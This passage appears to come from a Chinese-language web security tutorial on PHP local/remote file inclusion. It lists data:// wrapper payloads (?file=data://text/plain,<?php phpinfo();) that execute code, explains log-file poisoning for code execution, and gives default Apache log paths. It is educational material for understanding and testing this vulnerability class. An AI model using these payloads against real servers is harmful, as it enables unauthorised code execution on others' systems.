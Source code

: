**php.ini要求：**
 - `allow_url_fopen=On`
 - `allow_url_include=On`
 - `php版本 >= 5.2`

**实例**
```
data://[<MIME-type>][;charset=<encoding>][;base64],<data>

?file=data://,<?php phpinfo();
?file=data://text/plain,<?php phpinfo();
?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
?file=data:text/plain,<?php phpinfo();
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

以上用法，代码都会被执行
```

**注意：**
很多时候会利用Data URL来进入存储图片，当使用`<img src='images/1.gif' />`会发送一个HTTP请求，但是使用`<img src="data:image/gif;base64,R0lGODlhMwAxAIAAAAAAA...==`的时候，图片被作为BASE64字符格式嵌入到页面中，便可以减少HTTP请求。但是编码后字符串体积也会增加，并且利用Data URL的图片浏览器不会去缓存。
以至于一种解决方案，就是用CSS的URL操作符来指定网页元素的背景图片存入CSS中，浏览器不会缓存Data URL图片，但是会去缓存CSS文件。
```css
.striped_box
  {
  background-image: url("data:image/gif;base64,R0lGODlhAwADAIAAAP///8zMzCH5BAAAAAAALAAAAAADAAMAAAIEBHIJBQA7");
  }
```
当然其中利弊与不同点还有很多，更具体可以看
[Data URL和图片](http://www.webhek.com/post/data-url.html)
[Data URI 应用场景小结](https://www.cnblogs.com/zichi/p/5058941.html)

<br>
<br>

## 包含日志文件
例如WEB服务器一般会将用户的访问记录保存在访问日志中。那么我们可以根据日志记录的内容，精心构造请求，把PHP代码插入到日志文件中，通过文件包含漏洞来执行日志中的PHP代码。

**利用条件**
 - **对日志文件可读**
 - **知道日志文件存储目录**

**注意**
 - 一般情况下日志存储目录会被修改，需要读取服务器配置文件(`httpd.conf`,`nginx.conf`.....)或者根据`phpinfo()`中的信息来得知
 - 日志记录的信息都可以被调整，比如记录报错的等级，或者内容格式，还是比较灵活的。

<br>

### 默认存储路径

**apache**
 - `/var/log/httpd/`
 - `/var/log/apache2/`
 - `/etc/httpd/logs/`
 - 文件名为`error.log`(错误日志)和`access.log`(访问日志)
 - 一些资料上面说文件格式是 `error_log` ，不过自己搭建起来不是这样的，需要注意一下。
